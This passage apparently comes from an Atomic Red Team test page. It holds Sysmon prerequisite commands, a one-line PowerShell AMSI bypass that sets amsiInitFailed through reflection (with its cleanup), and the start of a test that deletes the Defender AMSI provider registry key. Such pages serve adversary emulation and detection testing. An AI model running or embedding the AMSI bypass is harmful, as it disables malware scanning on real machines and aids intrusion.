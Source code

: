 ##### Get Prereq Commands:

```powershell
$parentpath = Split-Path "#{sysmon_exe}"; $zippath = "$parentpath\Sysmon.zip"
New-Item -ItemType Directory $parentpath -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "$zippath"
Expand-Archive $zippath $parentpath -Force; Remove-Item $zippath
if(-not ($Env:Path).contains($parentpath)){$Env:Path += ";$parentpath"}
```

##### Description: Sysmon must be installed

##### Check Prereq Commands:

```powershell
if(cmd /c sc query sysmon) { exit 0} else { exit 1} 
```

##### Get Prereq Commands:

```powershell
cmd /c sysmon -i -accepteula
```

<br/>
<br/>

## Atomic Test #11 - AMSI Bypass - AMSI InitFailed

Any easy way to bypass AMSI inspection is it patch the dll in memory setting the "amsiInitFailed" function to true.
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false) -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #12 - AMSI Bypass - Remove AMSI Provider Reg Key

With administrative rights, an adversary can remove the AMSI Provider registry key in HKLM\Software\Microsoft\AMSI to
disable AMSI inspection.
This test removes the Windows Defender provider registry key.
